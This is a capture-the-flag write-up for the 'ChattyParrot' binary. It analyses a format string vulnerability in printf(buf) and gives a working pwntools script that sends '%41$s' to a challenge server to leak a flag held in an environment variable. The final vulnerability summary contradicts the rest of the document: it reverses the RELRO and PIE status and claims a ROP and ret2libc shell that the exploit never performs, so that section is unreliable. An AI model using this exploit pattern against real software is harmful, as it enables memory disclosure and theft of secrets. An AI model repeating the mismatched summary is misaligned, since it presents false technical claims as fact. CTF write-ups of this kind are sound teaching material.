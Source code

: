 # ChattyParrot - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ChattyParrot.gif)

---

## Challenge Summary

The `ChattyParrot` binary contains a **format string vulnerability** in the `vuln()` function, where user input is passed to `printf()` without a format specifier. By using `%p` and `%s`, an attacker can **leak memory** and extract the flag stored in the `FLAG_VAL` environment variable. The goal is to craft input that reveals the flag by exploiting this vulnerability.

---

## Binary Information

```bash
$ file ChattyParrot
```

![Alt text](img/2.png)

```bash
$ checksec main
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("%s", "Input your phrase:");
printf(buf);  // Format string vulnerability
```

![Alt text](img/4.png)

```c
read(0, buf, 0x100uLL);  // User input is read into buffer
```

![Alt text](img/5.png)

- The `main()` function retrieves the `FLAG_VAL` environment variable and copies it into `SECRET`.
- It then prompts the user for input and calls `vuln()`.
- In `vuln()`, 256 bytes are read into `buf` using `read(0, buf, 0x100)`.
- The input is then passed directly to `printf(buf)`, causing a format string vulnerability.

---

## Exploit Strategy

### Step 1: Leak Memory Address

We exploit the format string vulnerability by sending a payload containing `%p` and `%s` to leak memory addresses. This allows us to:

- Leak the address of the `FLAG_VAL` environment variable.

### Step 2: Extract the Flag

Using the leaked memory addresses, we can:

- Access the **value of `FLAG_VAL`** by reading the content at the leaked address, which contains the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ctf.mf.grsu.by --port 9077
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ChattyParrot')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9077)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env = env_vars ,*a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'%41$s'
io.sendline(payload)
io.recvuntil(b'Input your phrase:')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")





```

---

## Exploit Output

![Alt text](img/5.png)

---

## Vulnerability Summary

| Protection   | Status      |

| ------------ | ----------- |

| RELRO        | Full RELRO  |

| Stack Canary | Not Present |

| NX           | Enabled     |

| PIE          | Enabled     |

| Stripped     | No          |

- Format string vulnerability enables arbitrary write

- ROP used to leak libc and execute a syscall chain

- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```

RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}

```
